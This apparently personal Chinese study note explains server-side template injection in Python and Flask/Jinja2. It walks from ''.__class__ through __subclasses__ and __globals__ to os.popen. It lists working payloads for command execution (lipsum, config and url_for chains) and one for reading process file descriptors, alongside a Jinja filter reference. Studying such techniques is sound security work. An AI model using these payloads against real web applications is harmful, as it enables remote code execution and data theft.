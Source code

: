 # SSTI 模板注入

首先用python简单演示

输入`''.__class__`

可以看到输出了`<class 'str'>`，表明这是str类，当然还有另外的类型，可以依次输入`().__class__`,`[].__class__`,`{}.__class__`

![image-20231213201900740](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231213201900740.png)

str(字符串)、dict(字典)、tuple(元组)、list(列表)，这些类型的基类都是object，也就是说它们都属于object，而object拥有众多的子类。
接下来看 ：`__bases__` 可以用来查看类的基类

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210228165656712.png)
后面还可以加个数组，表示使用数组索引来查看特定位置的值
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210228165958127.png)
除此之外还可以用`__mro__`来查看基类
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210228170529522.png)

然后进入下一步，前面提到object拥有众多的子类，那怎么看这些子类呢？
`__subclasses__()`
查看当前类的子类
输入如下代码

```python
''.__class__.__bases__[0].__subclasses__()
```

![img](https://img-blog.csdnimg.cn/20210228171147525.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3hpYW9sb25nMjIzMzM=,size_16,color_FFFFFF,t_70)

可以看到有非常多的子类，其中有一个类：<class 'os._wrap_close'>，比如我想用这个类，那该怎么做呢？

```python
''.__class__.__bases__[0].__subclasses__()[138]
```

得到：![在这里插入图片描述](https://img-blog.csdnimg.cn/20210228171901668.png)

这个时候我们便可以利用.init.globals来找os类下的，init初始化类，然后globals全局来查找所有的方法及变量及参数。

```python
 ''.__class__.__bases__[0].__subclasses__()[138].__init__.__globals__
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210228173726688.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3hpYW9sb25nMjIzMzM=,size_16,color_FFFFFF,t_70)

此时我们可以看到各种各样的参数方法函数,我们找其中一个可利用的function popen来执行命令

```python
 ''.__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['popen']('dir').read()
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210228184450962.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3hpYW9sb25nMjIzMzM=,size_16,color_FFFFFF,t_70)

最基本的就是这些

# 拓展

```
__class__            类的一个内置属性，表示实例对象的类。
__base__             类型对象的直接基类
__bases__            类型对象的全部基类，以元组形式，类型的实例通常没有属性 __bases__
__mro__              此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
__subclasses__()     返回这个类的子类集合，Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order.
__init__             初始化类，返回的类型是function
__globals__          使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。
__dic__              类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
__getattribute__()   实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
__getitem__()        调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b')
__builtins__         内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。即里面有很多常用的函数。__builtins__与__builtin__的区别就不放了，百度都有。
__import__           动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__()            返回描写这个对象的字符串，可以理解成就是打印出来。
url_for              flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
lipsum               flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}
current_app          应用上下文，一个全局变量。

request              可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
request.args.x1   	 get传参
request.values.x1 	 所有参数
request.cookies      cookies参数
request.headers      请求头参数
request.form.x1   	 post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		 post传参	(Content-Type:a/b)
request.json		 post传json  (Content-Type: application/json)
config               当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```

```
常用的过滤器

int()：将值转换为int类型；

float()：将值转换为float类型；

lower()：将字符串转换为小写；

upper()：将字符串转换为大写；

title()：把值中的每个单词的首字母都转成大写；

capitalize()：把变量值的首字母转成大写，其余字母转小写；

trim()：截取字符串前面和后面的空白字符；

wordcount()：计算一个长字符串中单词的个数；

reverse()：字符串反转；

replace(value,old,new)： 替换将old替换为new的字符串；

truncate(value,length=255,killwords=False)：截取length长度的字符串；

striptags()：删除字符串中所有的HTML标签，如果出现多个空格，将替换成一个空格；

escape()或e：转义字符，会将<、>等符号转义成HTML中的符号。显例：content|escape或content|e。

safe()： 禁用HTML转义，如果开启了全局转义，那么safe过滤器会将变量关掉转义。示例： {{'<em>hello</em>'|safe}}；

list()：将变量列成列表；

string()：将变量转换成字符串；

join()：将一个序列中的参数值拼接成字符串。示例看上面payload；

abs()：返回一个数值的绝对值；

first()：返回一个序列的第一个元素；

last()：返回一个序列的最后一个元素；

format(value,arags,*kwargs)：格式化字符串。比如：{{ "%s" - "%s"|format('Hello?',"Foo!") }}将输出：Helloo? - Foo!

length()：返回一个序列或者字典的长度；

sum()：返回列表内数值的和；

sort()：返回排序后的列表；

default(value,default_value,boolean=false)：如果当前变量没有值，则会使用参数中的值来代替。示例：name|default('xiaotuo')----如果name不存在，则会使用xiaotuo来替代。boolean=False默认是在只有这个变量为undefined的时候才会使用default中的值，如果想使用python的形式判断是否为false，则可以传递boolean=true。也可以使用or来替换。

length()返回字符串的长度，别名是count
```

其中request具体参考：
[Flask request 属性详解](https://blog.csdn.net/u011146423/article/details/88191225)

判断模板：

![img](https://img-blog.csdnimg.cn/img_convert/e5eb65d29711347929363924367ccb8a.png#pic_center)

# 引用文章：

[SSTI(模板注入)_ssti各种分类-CSDN博客](https://blog.csdn.net/xiaolong22333/article/details/114228433?spm=1001.2014.3001.5501)

[SSTI入门详解-CSDN博客](https://blog.csdn.net/weixin_51353029/article/details/111503731)